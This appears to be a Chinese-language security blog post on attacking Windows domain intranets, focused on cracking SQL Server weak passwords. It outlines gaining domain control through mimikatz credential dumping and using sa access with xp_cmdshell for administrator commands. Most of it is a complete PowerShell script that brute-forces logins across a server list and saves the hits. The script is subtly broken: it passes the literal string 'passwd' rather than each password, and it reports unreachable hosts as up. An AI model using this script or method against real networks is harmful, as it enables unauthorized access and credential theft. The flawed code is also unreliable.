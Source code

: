 
---
layout: post
title: 内网域渗透-sqlserver爆破
author: alpha1e0
categories: 安全技术
tages: 安全技术
---

## 0x00内网渗透思路

内网渗透以取得域控账户为最终目的。常规思路：入侵某些服务器或主机，通过mimikatz倒域账户，查找敏感信息（如邮件）查找其他域账户等，反复迭代。

入侵服务器常规的思路：

1. 通过弱口令破解操作系统登录口令。
2. 通过MS08-067等漏洞渗透。
3. 通过web漏洞渗透web服务器。
4. 通过弱口令破解sqlserver登录口令。

## 通过弱口令破解sqlserver登录口令。

由于域环境中补丁统一部署、域账户复杂度限制，因此1和2两种思路很难实施。在实际操作中最有效的石sqlserver的弱口令和web服务器渗透。

本文介绍sqlserver弱口令破解。在获取sa账户后可以使用“exec xp_cmdshell”直接执行Administrator权限的命令（一般情况下sa账户和administrator账户权限相同）。

[这篇文章][1]介绍了通过LDAP获取内网sqlserver服务器的方法，可获取一个sqlserver列表。我写了一个powershell脚本能够对这个列表进行暴力破解。(windows下powershell好处多多，集成了各种windows功能，并且感觉powershell比bashshell还要强大好用)

破解脚本如下：


{% highlight powershell %}
Write-Host "[-] Usage: brute.ps1 server.txt user.txt passwd.txt"

$serverFile = Get-content $args[0]
$userFile = Get-content $args[1]
$passwdFile = Get-content $args[2]

$serverList = @()
$result = @()

Write-Host "[-] Finding alive server--------------------------."
Foreach ($server in $serverFile) {
	$pos = $server.Indexof(".")
	$serverName = $server.Substring(0,$pos)
	if((Test-Connection -Cn $serverName -BufferSize 32 -Count 1 -ea 0 -quiet)) {
		Write-Host "[+] Up $server"
		$serverList += $server
	} else {
		Write-Host "[+] Up $server"
	}
}

Write-Host "[-] Begin burting--------------------------."
Foreach ($user in $userFile) {
	Foreach ($passwd in $passwdFile) {
		Foreach ($server in $serverList) {
			$con = New-Object System.Data.SqlClient.SqlConnection
			$con.ConnectionString = "Server=$server;Database=master;User ID='$user';Password='passwd';Connect Timeout=2;"
			Try {
				$con.Open()
				Write-Host "[+] Success: $server; $user; $passwd."
				$result += "$server; $user; $passwd"
			}
			Catch {
				Write-Host "[+] Failed: $server; $user; $passwd."
			}
		}
	}
}

$result | out-file "result.txt"
{% endhighlight %}

脚本中server.txt为sqlserver服务器列表，user.txt为用户名列表，passwd为password列表。执行结果保存在脚本目录下的result.txt文件中。

[1]: http://drops.wooyun.org/pentesting/2125